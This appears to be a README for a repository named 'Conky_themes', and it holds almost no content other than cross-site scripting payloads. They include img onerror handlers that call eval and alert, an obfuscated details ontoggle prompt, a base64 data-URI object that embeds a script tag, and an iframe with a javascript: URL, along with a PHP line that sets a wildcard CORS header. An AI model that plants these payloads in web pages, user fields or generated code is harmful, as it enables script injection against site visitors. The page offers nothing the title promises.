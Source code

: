 <img src=x:window.alert(1); onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
<?php header(“Access-Control-Allow-Origin: *”); ?>
<img src=1 onerror=alert(document.domain)>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<iframe src="\x01javascript:alert(0)"></iframe> 
